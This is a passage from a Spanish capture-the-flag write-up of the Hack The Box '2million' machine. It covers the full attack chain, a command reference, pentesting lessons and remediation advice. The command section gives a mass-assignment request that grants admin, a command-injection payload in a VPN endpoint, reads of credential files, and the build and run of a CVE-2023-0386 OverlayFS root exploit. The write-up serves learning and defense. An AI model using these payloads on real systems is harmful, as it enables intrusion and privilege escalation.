# root.txt  snap  thank_you.json

cat root.txt
```

```text
5fb9a0bf8612ed335989a4f6a1f8cfd2
```

> [!success] Root Flag capturada ✅

---

## 13. Certificación

Máquina resuelta con ambas flags:



---

## 14. Cadena completa de ataque



```text
API oculta (ROT13 + Base64)
        ↓
Invite code válido
        ↓
Registro de usuario
        ↓
Mapa de rutas /api/v1
        ↓
Mass assignment (is_admin=1)
        ↓
Command Injection (vpn/generate)
        ↓
www-data
        ↓
.env → credenciales admin
        ↓
SSH admin
        ↓
CVE-2023-0386 (OverlayFS)
        ↓
root
```

---

## 15. Comandos principales (referencia rápida)

### Enumeración y setup

```bash
sudo vim /etc/hosts
# 10.129.229.66    2million.htb
```

### Descubrimiento del invite code

```bash
curl -X POST http://2million.htb/api/v1/invite/how/to/generate | jq
curl -X POST http://2million.htb/api/v1/invite/generate | jq
echo 'UEYxQlgtMENGTkktSUtOOVAtVzZNR1Q=' | base64 -d
```

### Mapeo de la API (Burp Repeater)

```http
GET /api/v1 HTTP/1.1
Host: 2million.htb
```

### Mass assignment a admin

```http
PUT /api/v1/admin/settings/update HTTP/1.1
Content-Type: application/json

{"email":"admin@2million.htb","is_admin":1}
```

### Command Injection / RCE

```http
POST /api/v1/admin/vpn/generate HTTP/1.1
Content-Type: application/json

{"username":"admin; id #"}
```

### Acceso y privesc

```bash
ssh admin@2million.htb
cat /var/mail/admin
gcc poc.c -o poc -D_FILE_OFFSET_BITS=64 -static -lfuse -ldl
./poc
cat /root/root.txt
```

---

## 16. Conceptos aprendidos

- **Ofuscación en cascada (ROT13 + Base64):** una API puede "esconder" instrucciones detrás de cifrados triviales; siempre revisar el campo `enctype`/`format` de la respuesta.
- **Auto-documentación de API expuesta:** pedir la ruta raíz de una API versionada (`/api/v1`) a veces devuelve un mapa completo de endpoints — útil para atacantes y para defensores que auditan superficie expuesta.
- **Mass assignment / IDOR:** enviar campos no solicitados por la UI (`is_admin`) a un endpoint de actualización puede escalar privilegios si el backend no filtra qué campos son modificables por el propio usuario.
- **Command Injection:** concatenar entrada de usuario directamente en comandos del sistema (aquí, en la generación de certificados VPN) permite ejecución arbitraria.
- **CVE-2023-0386 (OverlayFS):** vulnerabilidad de kernel Linux que abusa de `unshare`/user namespaces y el montaje de overlayfs para copiar archivos con `setuid` preservando privilegios de root.

---

## 17.  Lecciones de pentesting

> [!important] Lección 1 — Leer el JavaScript del cliente El propio `inviteapi.js` reveló rutas de API no documentadas en la interfaz visual.

> [!important] Lección 2 — Los mensajes de error son documentación gratuita `"Missing parameter: email"` indicó exactamente qué campo faltaba, acelerando la explotación.

> [!important] Lección 3 — Probar campos "de más" en peticiones de actualización `is_admin` no aparecía en ningún formulario, pero el backend lo aceptó igual. Siempre vale la pena probar campos plausibles no documentados en endpoints `PUT`/`PATCH`.

> [!important] Lección 4 — Un RCE + credenciales en `.env` es oro La combinación de RCE de bajo privilegio (`www-data`) con archivos de configuración accesibles (`.env`) permite escalar rápidamente a un usuario del sistema real.

> [!important] Lección 5 — El correo interno como vector de reconocimiento Los archivos de correo local (`/var/mail/`) suelen contener contexto operativo valioso — en este caso, señalaron directamente la vulnerabilidad de kernel a explotar.

---

## 18. Remediación

- **API:** eliminar la ofuscación como "seguridad" (ROT13/Base64 no son controles de seguridad) y aplicar autenticación/autorización real en cada endpoint.
- **Mass assignment:** definir explícitamente una allowlist de campos modificables por el usuario en `PUT /settings/update`; nunca confiar en el body completo del cliente para actualizar campos sensibles como `is_admin`.
- **Command Injection:** nunca concatenar entrada de usuario en comandos de shell; usar APIs nativas (bindings de `openssl`/`easy-rsa`) o, como mínimo, escapar/validar estrictamente cada parámetro.
- **Gestión de secretos:** no dejar archivos `.env` con credenciales accesibles vía path traversal o RCE en el mismo directorio servido por la aplicación; usar variables de entorno reales o un vault de secretos.
- **Kernel:** aplicar parches de seguridad de forma oportuna — CVE-2023-0386 ya estaba señalado internamente en la organización (según el correo) pero no se había mitigado.

---

## 19. Resumen final

```text
1. Añadir 2million.htb a /etc/hosts
2. Revisar inviteapi.js → rutas ocultas
3. Decodificar ROT13 → instrucciones
4. Generar código → decodificar Base64
5. Registrar usuario con el invite code
6. Mapear /api/v1 con Burp → lista de endpoints
7. PUT /admin/settings/update → mass assignment (is_admin=1)
8. POST /admin/vpn/generate → Command Injection → www-data
9. Enumerar → descubrir .env
10. Obtener credenciales de admin
11. SSH como admin → user.txt
12. Leer /var/mail/admin → pista CVE-2023-0386
13. Compilar y ejecutar PoC de OverlayFS
14. root → root.txt
```

> [!success] Resultado **User Flag:** capturada ✅ **Root Flag:** capturada ✅ **Root:** `uid=0(root)` **Vector inicial:** Abuso de lógica de negocio (ROT13/Base64) + Mass Assignment + Command Injection **Vector de privesc:** CVE-2023-0386 (OverlayFS) **Servicio crítico:** `POST /api/v1/admin/vpn/generate`

---


